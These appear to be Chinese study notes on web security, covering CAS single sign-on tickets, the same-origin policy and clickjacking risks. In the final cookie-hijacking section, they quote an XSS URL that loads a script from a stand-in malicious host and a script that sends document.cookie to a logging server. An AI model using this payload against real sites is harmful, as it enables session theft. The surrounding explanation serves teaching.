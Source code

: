 [原文](https://mp.weixin.qq.com/s/OWcY6q-aQefCvT-a1yfD2Q)
[原文2](https://juejin.cn/post/6945277725066133534)

### CAS 生成的票据基本概念介绍
* TGT（Ticket Grangting Ticket） refresh token：TGT 是 CAS 为用户签发的 登录票据，拥有了 TGT，用户就可以证明自己在 CAS 成功登录过。
* TGC：Ticket Granting Cookie cookie ： CAS Server 生成TGT放入自己的 Session 中，而 TGC 就是这个 Session 的唯一标识（SessionId），以 Cookie 形式放到浏览器端，是 CAS Server 用来明确用户身份的凭证。
* ST（Service Ticket） access token：ST 是 CAS 为用户签发的访问某个 Service 的票据。
#### 单点登录下的 CAS 认证步骤详解：

* 客户端： 开始访问系统 A；
* 系统 A： 发现用户未登录，重定向至 CAS 认证服务（sso.com），同时 URL 地址参数携带登录成功后回跳到系统 A 的页面链接(sso.com/login?redir…)
* CAS 认证服务： 发现请求 Cookie 中没有携带登录的票据凭证（TGC），所以 CAS 认证服务判定用户处于 未登录 状态，302重定向用户页面至 CAS 的登录界面，用户在 CAS 的登录页面上进行登录操作。
* 客户端： 输入用户名密码进行 CAS 系统认证；
* CAS 认证服务： 校验用户信息，并且 生成 TGC 放入自己的 Session 中，同时以 Set-Cookie 形式写入 Domain 为 sso.com 的域下 ；同时生成一个 授权令牌 ST (Service Ticket) ，然后重定向至系统 A 的地址，重定向的地址中包含生成的 ST（重定向地址：www.taobao.com?token=ST-345678）
系统 A： 拿着 ST 向 CAS 认证服务发送请求，CAS 认证服务验证票据 (ST) 的有效性。验证成功后，系统 A 知道用户已经在 CAS 登录了（其中的 ST 可以保存到 Cookie 或者本地中），系统 A 服务器使用该票据 (ST) 创建与用户的会话，称为局部会话，返回受保护资源；

* 客户端： 开始访问系统 B；
* 系统 B： 发现用户未登录，重定向至 SSO 认证服务，并将自己的地址作为参数传递，并附上在 sso.com 域下的 cookie 值是第五步生成的 TGC；
* CAS 认证服务： CAS 认证服务中心发现用户已登录，跳转回系统 B 的地址，并附上票据 (ST) ;
系统 B： 拿到票据 (ST)，去 CAS 认证服务验证票据 (ST) 的有效性。验证成功后，客户端也可以跟系统 B 交往了 ~
# 同源策略(浏览器的安全策略)
不能使用不同源的数据服务。防御大部分的攻击。但是表单提交、链接 这些项等同于切换页面 script标签的src、link标签的href、img标签的src、iframe标签的src 上述的资源可以引用，但是不可获取内容。

安全问题

例子1：普通的网络用户，不会去记域名等内容。如果我在我自己的页面内，嵌套一个并把他放大，不就和淘宝一模一样了？并且还会有淘宝的状态信息。这时候我们可以获取用户的密码、给用户创建订单、注销用户的账户等等有危害性的操作。例子2：领导说要一个腾讯新闻。嗯好，我们放大自适应。这时候，我们可以加点小广告，截获一些用户操作。分分钟不花钱。得到了一个腾讯新闻。

数据归属问题

大家都知道爬虫吧。想起来前几天在思否看到的头条（“饭友”APP 未经许可抓取微博数据，被判赔偿210万）。如果说没有同源策略，饭友直接 ajax 拉取微博数据。或许你可以说 referer 验证，在浏览器没有同源策略的情况下这些都可以绕过去。微博方看到的就是一个正常的微博用户，正常的ip，访问了他们的接口。那么爬虫呢？爬虫是主动触发的操作，是他们使用他们的ip，伪造成一个合理的用户，去抓取数据。

# 说说劫持 Cookie 的原理
[原文链接](https://juejin.cn/post/6844903813820710926)
1.首先先在存在 XSS 漏洞的网站，加载一段远程脚本，形如：
```
http://www.xxx.com/xxx.html?param="><script src=http://www.malice.com/malice.js></script>
```
XSS Payload 写在 malice.js 中，这样就可以避免直接在 URL 参数中写入大量的脚本代码。
malice.js 内容：
```
var img = document.createElement("img");
img.src = "http://xxx.com/log?" + escape(document.cookie);
document.body.appendChild(img);
```
escape() 函数可对字符串进行编码，这样就可以在所有的计算机上读取该字符串。
在此，我们动态创建了一个图片标签，并把 cookie 参数作为对象，发送给后端服务器。
